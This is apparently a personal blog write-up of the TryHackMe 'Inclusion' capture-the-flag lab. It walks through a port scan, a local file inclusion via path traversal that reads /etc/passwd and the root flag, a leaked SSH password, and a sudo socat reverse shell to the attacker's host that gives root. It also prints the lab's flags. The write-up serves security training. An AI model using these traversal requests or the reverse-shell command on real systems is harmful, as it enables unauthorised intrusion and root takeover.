 ```yaml
---
title: TryHackMe - Inclusion Writeup
description: My writeup on Inclusion box.
categories:
 - tryhackme
tags: tryhackme
---
```


Hi all, this is my first writeup on this blog.

You can find the machine there > [Inclusion](https://tryhackme.com/room/inclusion){:target="_blank"}

Let's start as always with a nmap scan.

```bash
$ ip=10.10.175.84
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-13 00:59 EEST
Nmap scan report for 10.10.175.84 (10.10.175.84)
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start by enumerating port 80. We can see a website running there.

![image1](https://raw.githubusercontent.com/0xatom/0xatom.github.io/master/images/Inclusion1.png)

By clicking one of the "view details" buttons, we can see in URL the `?name=` parameter. Since machine's name is Inclusion we can try for LFI.

```bash
$ curl -s -X GET http://$ip/article?name=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```

Bingo! We can see there this `falconfeast:rootpassword` some creds, SSH is open so we can try to login.

```bash
$ ssh falconfeast@$ip
falconfeast@10.10.175.84's password: 
falconfeast@inclusion:~$ whoami
falconfeast
```

Perfect, now let's try to grain root privileges.

When i privesc i always check `sudo -l` first, let's give it a go.

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

We can run `socat` as root, [gtfobins](https://gtfobins.github.io/gtfobins/socat/#sudo){:target="_blank"} here we go!

We open a listener on our machine : ```socat file:`tty`,raw,echo=0 tcp-listen:12345```

On target's box we execute :

```bash
$ RHOST=$your_tun0_ip
$ RPORT=12345
$ sudo socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
```

We have a root shell & now we can read the flags.

```bash
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
# cat /home/falconfeast/user.txt; cat /root/root.txt
60989655118397345799
42964104845495153909
```

Before i end this writeup, i want to share something funny with you, i noticed that web server is running as root.

```bash
# netstat -nlpt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      545/python3         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      485/systemd-resolve 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      598/sshd            
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      664/mysqld          
tcp6       0      0 :::22                   :::*                    LISTEN      598/sshd            
# ps aux | grep 545
root       545  0.3  5.8 652364 28676 ?        Ss   03:26   0:08 /usr/bin/python3 /usr/local/bin/flask run --host=0.0.0.0 --port=80
root      1323  0.0  0.2  14428  1076 ?        S    04:07   0:00 grep 545
```

So we can read both flags without shell/privesc. ;-)

```bash
$ curl -s -X GET http://$ip/article?name=../../../../home/falconfeast/user.txt
60989655118397345799

$ curl -s -X GET http://$ip/article?name=../../../../root/root.txt
42964104845495153909
```

Maker's mistake OR .. ? who knows :P

See you!
